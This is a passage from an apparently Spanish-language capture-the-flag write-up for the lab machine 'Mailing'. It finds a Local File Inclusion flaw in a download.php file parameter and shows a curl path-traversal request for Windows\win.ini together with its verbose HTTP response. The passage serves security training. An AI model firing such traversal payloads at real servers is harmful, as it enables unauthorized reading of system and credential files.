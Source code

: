 ```bash
10.10.11.14 mailing.htb
```
{: .file="/etc/hosts" }

Por la web, podemos ver que se trata de un servidor de correo:

![Web](/assets/writeups/mailing/1.png)

Solamente nos muestra el equipo detrás de la creación de este servicio y un enlace a la descarga de un fichero pdf, que es algo que llama poderosamente la atención ya que nos envia a `http://mailing.htb/download.php?file=instructions.pdf`... jugoso.

Vamos a ver que hacemos

## Intrusión

Si empezamos a jugar con el parámetro `file` del `download.php`, podremos ver que es vulnerable a Local File Inclusion:

```bash
❯ curl -v "http://mailing.htb/download.php?file=..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\win.ini"
* Host mailing.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.14
*   Trying 10.10.11.14:80...
* Connected to mailing.htb (10.10.11.14) port 80
> GET /download.php?file=..\..\..\..\..\..\..\..\..\..\Windows\win.ini HTTP/1.1
> Host: mailing.htb
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Cache-Control: must-revalidate
< Pragma: public
< Content-Type: application/octet-stream
< Expires: 0
< Server: Microsoft-IIS/10.0
< X-Powered-By: PHP/8.3.3
< Content-Description: File Transfer
< Content-Disposition: attachment; filename="win.ini"
< X-Powered-By: ASP.NET
< Date: Thu, 05 Sep 2024 22:37:06 GMT
< Content-Length: 92
< 
```